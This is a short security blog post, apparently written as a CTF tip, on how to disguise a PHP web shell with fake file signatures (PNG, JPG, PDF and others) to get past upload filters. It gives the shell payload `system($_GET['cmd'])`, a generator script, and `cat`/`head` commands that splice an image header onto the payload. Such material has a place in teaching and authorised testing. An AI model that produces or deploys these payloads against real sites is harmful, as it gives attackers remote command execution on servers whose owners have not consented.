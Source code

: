 ```yaml
---
layout: post
title: Custom Signature PHP Payloads  
author: Saket
categories: [Security]
tags: [ctf, payloads]
---
```


<div class="message">
Easily generating PHP Payloads with Custom file signatures to bypass input sanitization
</div>


What is this? A tip on bypassing input sanitation by changing the payload signature.
This process is generally done in packet analyzer or proxy application like burp but this can be done easily without that.
We will look into two basic ways to achieve this.
<!--more-->
![](/assets/images/cpngh/h2.png)
### Why this works?
PHP generally start interpreting the script wherever `<?php` tag starts so anything gibberish preceding that will not be executed and that's good news for us as we can now append the payload after some file descriptors so that metadata of the file will show whatever we want it to show but it will still be a valid PHP script.

### Methods

#### Python script

Don't worry I have done the hard work for you, you just need to prepare your payload, we will put the burden of signature management to a script.

Actually this is a small project where I am collecting some of the commonly used file signatures from real files (not the internet and file format wikis) this should give all the payload more convincing results.

You can get the project from GitHub [HERE](https://github.com/Saket-Upadhyay/CustomPhpPayloadSignature)

***With custom python script***
<br>
As simple as

```sh
python cupps.py -s png
```
this will create PHP payload `<?php system($_GET['cmd']);?>` with PNG signature. this is one of the commonly  known tricks to bypass most of the basic image upload scenarios.
![](/assets/images/cpngh/cupps.png)


All the available signatures can be seen by the `-h` parameter.

```sh
$ python cupps.py -h

usage: cupps.py [-h] [-s target_signature]

Script to create PHP Payloads with custom file signatures

optional arguments:
  -h, --help            show this help message and exit
  -s target_signature, --signature target_signature
                        accepted inputs : png,jpg,exe,elf,gif,bmp,jar,pdf,iso

~ with <3 by X64M

```
> NOTE: This is an active project as of 15-08-2020 and I am trying to add more signatures to it so feel free to contribute.


***By appending output of `cat`***

This is one of the neat tricks to achieve this.

just do this :

```sh
cat image.png | head -n 3 >>exploit.php.png
```

this will take the image header and will write to the file `exploit.php.png` 

and then

```sh
cat payload.php >>exploit.php.png
```
This will append the payload to the file with an existing image header.

![](/assets/images/cpngh/bt.png)

And that would just do it.

### Conclusion
Well, that's it for this article. See ya in the next one!

Till then stay caffeinated enough!

--
